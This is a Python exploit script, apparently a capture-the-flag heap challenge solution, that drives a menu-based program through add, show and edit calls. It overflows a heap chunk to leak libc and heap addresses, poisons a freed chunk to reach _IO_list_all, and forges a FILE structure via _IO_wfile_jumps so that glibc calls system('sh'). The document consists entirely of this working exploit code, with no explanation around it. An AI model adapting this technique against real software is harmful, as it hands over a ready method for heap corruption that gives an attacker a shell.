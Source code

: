 ```python

def choice(idx):
    p.sendlineafter("exit:\n", str(idx))

def add(size):
    choice(1)
    p.sendlineafter("add:\n", str(size))

def show(idx):
    choice(3)
    p.sendlineafter("show:\n", str(idx))
    p.recvuntil(f"{idx}: ")

def edit(idx, size, data):
    choice(4)
    p.sendlineafter("edit:\n", str(idx))
    p.sendlineafter("size\n", str(size))
    p.sendafter("input\n", data)

add(0x8)
edit(0, 0x20, b"a" * 0x18 + p64(0xD91))
add(0x1000)
add(0x400)
edit(0, 0x20, b"a" * 0x18 + b"a" * 8)
show(0)
p.recvuntil("a" * 0x20)
libc.address = u64(p.recv(6).ljust(8, b"\x00")) - 0x3EBCA0 - 0x600
print(f"libc: {hex(libc.address)}")
edit(0, 0x30, b"a" * 0x30)
show(0)
p.recvuntil("a" * 0x30)
heap_addr = u64(p.recv(6).ljust(8, b"\x00")) - 0x270
print(f"heap: {hex(heap_addr)}")

# dbg()
add(0x310)
add(0x5F0 + 0x30)
add(0xF60)
edit(5, 0xF70, b"a" * 0xF60 + p64(0) + p64(0x81))
# dbg()
add(0x100)
edit(
    5,
    0xF78,
    b"a" * 0xF60 + p64(0) + p64(0x81) + p64(libc.sym['_IO_list_all']),
)
add(0x58)
add(0x58)

ioaddr=heap_addr+0x260
payload = p64(0)*2 + p64(1) + p64(2) #这样设置同时满足fsop
payload= payload.ljust(0x78,b'\x00')+p64(heap_addr)#lock
payload = payload.ljust(0x90, b'\x00') + p64(ioaddr + 0xe0) #_wide_data=fake_IO_addr + 0xe0
payload = payload.ljust(0xc8, b'\x00') + p64(libc.sym['_IO_wfile_jumps']) #vtable=_IO_wfile_jumps
payload = payload.ljust(0xd0 + 0x130, b'\x00')+p64(ioaddr+0xe0+0x138) #_wide_data->vtable
#*(B+0X68)=C=magic_gadget
payload = payload.ljust(0xd0 + 0x138 + 0x68, b'\x00') + p64(libc.sym['system'])
payload=b'  sh;\x00\x00\x00'+p64(0)+payload
edit(0,len(payload),payload)

# dbg()
edit(8, 8, p64(heap_addr+0x260))

```